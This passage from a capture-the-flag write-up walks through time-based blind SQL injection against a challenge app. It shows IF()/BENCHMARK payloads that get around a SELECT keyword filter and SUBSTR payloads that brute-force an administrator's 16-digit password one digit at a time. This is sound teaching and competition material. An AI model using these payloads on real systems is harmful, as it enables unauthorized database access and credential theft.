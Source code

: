 ## Exploitation

But wait. **How can we determine something is true or false?**

**In [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#using-conditional-statements), we can also see how we can use conditional statements to determine something is true or false:**
```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
```

But hold up... It's using keyword `SELECT`... Which will be filtered in our case...

Hmm... Maybe we can bypass the `SELECT` keyword?

**Upon researching, I found [this PDF for a conference back in 2010](https://websec.files.wordpress.com/2010/11/sqli2.pdf), and it talked about how to bypass the `SELECT` keyword:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113212436.png)

Holy moly... This bypass is hard to understand...

### Exploiting Conditional Time-based SQL Injection

**After fumbling around, I found that we can just use conditional statements without `SELECT` clause:**
```sql
IF(<condition>,<value_if_true>,<value_if_false>)
IF(1=1,BENCHMARK(50000,SHA1(1337)),0)
IF(1=2,BENCHMARK(50000,SHA1(1337)),0)
```

In here, we can use the `IF()` function to determine something is true or false.

If it's true, execute the computational expensive expression, else, just return 0.

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113213023.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113213036.png)

But wait, should we even brute force `Administrator`'s secret note??

**After looking at the source code carefully, I found that `Administrator`'s password is just 16-digit long:**
```python
[...]
password = ''.join(secrets.choice(digits) for i in range(16))
[...]
```

That being said, it's easier to brute force the password!

**To do so, we can use function `SUBSTR()` to brute force the password digit by digit:**
```sql
IF(SUBSTR(password,<digit_position>,1)=<digit_here>,BENCHMARK(50000,SHA1(1337)),0)
IF(SUBSTR(password,1,1)=0,BENCHMARK(50000,SHA1(1337)),0)
IF(SUBSTR(password,1,1)=1,BENCHMARK(50000,SHA1(1337)),0)
IF(SUBSTR(password,1,1)=2,BENCHMARK(50000,SHA1(1337)),0)
...
```
